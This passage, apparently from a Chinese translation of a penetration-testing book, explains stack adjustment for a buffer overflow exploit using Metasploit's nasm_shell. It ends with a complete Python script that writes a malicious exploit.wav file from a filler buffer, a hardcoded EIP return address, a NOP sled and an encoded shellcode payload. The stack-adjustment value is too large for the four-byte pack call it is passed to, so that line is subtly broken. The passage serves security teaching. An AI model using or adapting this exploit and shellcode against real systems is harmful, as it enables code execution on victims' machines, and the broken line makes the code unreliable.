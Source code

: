因此，我们看到我们正在利用此漏洞攻击外壳代码，因此我们可以通过告诉 ESP 移动以容纳必要的空间来进行补偿。

![Understanding stack adjustments](img/image00404.jpeg)

为此，我们需要在外壳代码的前面添加一个十六进制调整。我们将用两种不同的方式来实现这一点。我们将在本节中重点介绍的第一种方法。然后，我们将在反转 Metasploit 有效负载时解释第二种方式。首先，我们需要弄清楚如何调整实际堆栈；我们可以通过`nasm_shell.rb in the /usr/share/metasploit-framework/tools/nasm_shell.rb`来实现这一点。

堆栈调整 80000 意味着我们要将该值添加到 ESP。为此，我们需要计算 80000 的 ESP 调整，但对于该计算，我们需要将 80000 更改为十六进制值。十六进制的等价物是 13880。

![Understanding stack adjustments](img/image00405.jpeg)

### 提示

您可以使用内置的 Windows 计算器在科学模式下从十进制更改为十六进制，反之亦然。

这意味着我们将以下代码添加到我们的漏洞中以调整堆栈`adjustment = struct.pack('<I',0x81EC80380100)`。然后，我们在外壳代码前面加上调整值`exploit = fill + eip + offset + adjustment + shell`。最后，我们移除 NOP 底座，因为这并没有填充我们的第二阶段将包含的空间，最终的代码将类似于此。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
adjustment = struct.pack('<I',0x81EC80380100)
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
```